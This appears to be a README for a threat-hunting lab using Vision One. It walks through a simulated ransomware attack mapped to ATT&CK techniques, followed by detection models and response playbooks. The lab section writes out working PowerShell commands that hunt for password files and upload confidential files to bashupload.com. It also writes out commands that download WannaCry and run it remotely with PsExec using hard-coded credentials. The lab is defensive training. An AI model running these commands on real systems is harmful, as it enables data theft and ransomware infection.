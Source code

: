 # Tools-Red-Team
Threat Hunting using Vision One

Herramientas para evaluar un posible ataque Ransomware

4.1. Current User (T1033)	whoami

4.2. Find System Network Connections (T1049)	netstat -anto; Get-NetTCPConnection

4.3. Network Service Scanning (T1046)	Multiple computers within the network have exposed services on

4.4. View remote shares (T1135)	net view \\10.0.10.12 /all

4.5. Find files (T1005)	
Get-ChildItem C:\ -Recurse -Include confidential.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
Get-ChildItem C:\ -Recurse -Include password.* -ErrorAction 'SilentlyContinue' | foreach {$_.FullName} | Select-Object -first 5
 
4.6. Manual Command - (T1059)	Get-Content -Path  c:\confidential\confidential.txt

4.7. Net use (T1021.002)	net use \\10.0.10.12\confidential /user:trendmicro trendmicro;

4.8. Manual Command (T1083)	Get-ChildItem -Path \\10.0.10.12\confidential

4.9. Manual Command "Data Exfiltration" (T1041, T1055, T1572)	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt
	Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\Passwords.txt

4.10. Manual Command Dropping a 0-day Ransomware! (T1486)	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe
 
5.1. Custom Detection Model - Network and using PowerShell	Create Custom Detection Model: Network and using PowerShell

5.2. Custom Detection Model -  Sensitive data using PowerShell	Detecting an individual trying to upload: Sensitive data using PowerShell

5.3. Custom Detection Model - Ransomware Activity	Detecting Ransomware Activity (Compromised computer)

6.1. Security Playbook - Network Scan using Powershell	Detecting AND STOPPING an individual trying to scan for active computers on a network and using PowerShell scripts - Related to Lab 4.3

6.2. Security Playbooks - Sensitive Data Exfiltration	Detecting AND STOPPING an individual trying to upload sensitive data using PowerShell or other scripts - Related to Lab 4.9.

6.3. Security Playbooks - Ransomware Activity	Detecting and ISOLATING a compromised computer that was the victim of a Ransomware attack - Related to Lab 4.10

6.4 Automated Response - Security Playbook - Sensitive Data Exfiltration	"Run the following command using Caldera / Manual Command:

Invoke-WebRequest -Uri https://bashupload.com -Method Post -ContentType multipart/form-data -Body \\10.0.10.12\confidential\confidential.txt"
	Invoke-WebRequest -Uri "https://download.sysinternals.com/files/PSTools.zip" -OutFile "C:\Users\Public\PSTools.zip"; Expand-Archive -Path "C:\Users\Public\PSTools.zip" -DestinationPath "C:\Users\Public\";
	Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile \\10.0.10.12\confidential\wcry.exe;
	CMD: C:\Users\Public\PsExec.exe -s -accepteula \\10.0.10.12 -u trendmicro -p trendmicro C:\confidential\wcry.exe


